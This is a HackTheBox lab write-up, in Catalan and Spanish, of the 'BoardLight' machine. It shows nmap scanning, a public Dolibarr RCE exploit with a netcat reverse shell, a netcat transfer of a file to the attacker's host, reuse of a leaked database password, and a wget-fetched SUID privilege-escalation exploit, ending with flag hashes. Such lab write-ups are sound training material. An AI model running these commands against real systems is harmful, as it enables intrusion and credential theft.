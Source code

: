 # BoardLight

Plataforma: HackTheBox
OS: Linux
Level: Easy
Status: Done
Complete: Yes
Created time: 2 de diciembre de 2024 14:00
IP: 10.10.11.11

# Reconocimiento

NMAP (allports)

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.11 -oN extractports``

```

> Resultats:
> 
> 
> ![image.png](<imagenes/image.png>)
> 

NMAP Ports:

```bash
sudo nmap -p22,80 -sCV 10.10.11.11 -oN nmap

```

> Resultats:
> 
> 
> ![image.png](<imagenes/image 1.png>)
> 

Análisis de vulnerabilidades

POC RCE
[https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

# Explotación de vulnerabilidades

Executem exploit per a Dolibar 17.0.0

```bash
python3 exploit.py <http://crm.board.htb> admin admin 10.10.14.185 4444
nc -lvnp 4444

```

![image.png](<imagenes/image 2.png>)

Tractament TTY:

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash

```

# Escalada de privilegios

![image.png](<imagenes/image 3.png>)

Trobem al directori /tmp/pr4gm$:

![image.png](<imagenes/image 4.png>)

descarreguem el arxiu

Comando máquina atacante:

```bash
 nc -lvp 4444 > linpeas.txt

```

Comando máquina víctima:

```bash
nc 192.168.106.128 4444 -w 3 < linpeas.txt

```

Busquem dins del fitxer si trobem dades

```bash
cat results | grep board
```

Trobem la configuracio de la base de dades:

![image.png](<imagenes/image 5.png>)

Trobem diferents usuaris per la BD: config.php

![image.png](<imagenes/image 6.png>)

Pass: serverfun2$2023!!

Provem aquest password amb usuari larissa

Escalem privilegis a larissa

Canviem la revershell per ssh i entrem com a larissa
trobem flag: user.txt

user.txt: 8551aca9cdeb37137c17fd1fa350ea1a

Busquem per suid:

```bash
find / -perm -u=s -type f 2>/dev/null

```

![image.png](<imagenes/image 7.png>)

Trobem que podem explotar el enlightenment_sys
Busquem exploit:

[https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh)

El copiem amb

```bash
'Maquina nostre'

python3 -m http.server 80 `a la carpeta on tenim el fitxer`

'Maquina victima'

wget nostreip/nom_fitxer

```

Donem permisos:

chmod a+x [exploit.sh](http://exploit.sh/)

executem [exploit.sh](http://exploit.sh/)

![image.png](<imagenes/image 8.png>)

# Bandera(s)

> User:  8551aca9cdeb37137c17fd1fa350ea1a
Root: 75a52752844333fea88a3d9c60494889
>